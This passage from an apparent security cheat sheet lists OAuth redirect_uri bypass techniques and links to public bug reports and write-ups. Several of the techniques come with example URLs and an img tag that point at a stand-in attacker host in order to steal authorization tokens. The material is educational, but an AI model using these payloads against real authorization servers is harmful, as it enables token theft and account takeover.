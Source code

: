 - Weak regex:

    ```http
    https://auth-server.com/auth?
        redirect_url=https://application-website.com.attacker-website.com
    ```

- Discrepancies between the parsing of the URI by the different components:

    ```http
    https://auth-server.com/auth?
        redirect_url=https://application-website.com%20%26@foo.attacker-website.com#@bar.attacker-website.com
    ```

- HTTP parameter pollution:

    ```http
    https://auth-server.com/auth?
        redirect_uri=https://application-website.com/callback&
        redirect_uri=https://attacker-website.com
    ```

- Accidentally permitted any redirect URI beginning with `localhost` in a production environment:

    ```http
    https://auth-server.com/auth?
        redirect_uri=https://localhost.attacker-website.com
    ```

- HTML Injection and stealing tokens via `Referer` header:

    ```html
    <img src="attacker-website.com">
    ```

- Dangerous javascript that handles query parameters and URL fragments.

References:
- [Report: Stealing SSO Login Tokens (snappublisher.snapchat.com)](https://hackerone.com/reports/265943)

# References

- [OAuth 2.0 Authorization Framework](https://auth0.com/docs/protocols/oauth2)
- [Top X OAuth 2 Hacks (OAuth Implementation vulnerabilities)](https://github.com/0xn3va/cheat-sheets/blob/master/Web%20Application/OAuth/materials/20151215-Top_X_OAuth_2_Hacks-asanso.pdf)
- [Web Security Academy: OAuth 2.0 authentication vulnerabilities](https://portswigger.net/web-security/oauth)
- [PortSwigger Articles: Hidden OAuth attack vectors](https://portswigger.net/research/hidden-oauth-attack-vectors)
- [Write up: Bypassing GitHub's OAuth flow](https://blog.teddykatz.com/2019/11/05/github-oauth-bypass.html)
- [Report: Stealing users Bitbucket app tokens to retrieve sensitive data from connected Bitbucket accounts](https://gitlab.com/gitlab-org/gitlab-foss/-/issues/56500)
- [Report: Chained Bugs to Leak Victim's Uber's FB Oauth Token](https://hackerone.com/reports/202781)
- [Write up: Facebook OAuth Framework Vulnerability](https://www.amolbaikar.com/facebook-oauth-framework-vulnerability/)
- [Write up: How I hacked Github again](http://homakov.blogspot.com/2014/02/how-i-hacked-github-again.html)
